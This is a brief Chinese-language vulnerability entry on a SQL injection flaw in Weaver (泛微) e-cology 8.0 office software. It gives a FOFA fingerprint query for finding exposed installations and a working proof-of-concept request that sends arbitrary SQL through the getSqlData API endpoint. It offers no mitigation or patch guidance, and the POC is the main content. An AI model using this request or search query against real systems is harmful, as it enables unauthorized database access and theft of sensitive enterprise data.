

# 泛微OA E-Cology getSqlData SQL注入漏洞

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。 泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

```
泛微e-cology 8.0
```

## FOFA

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面


验证POC

```
/Api/portal/elementEcodeAddon/getSqlData?sql=select%20@@version
```


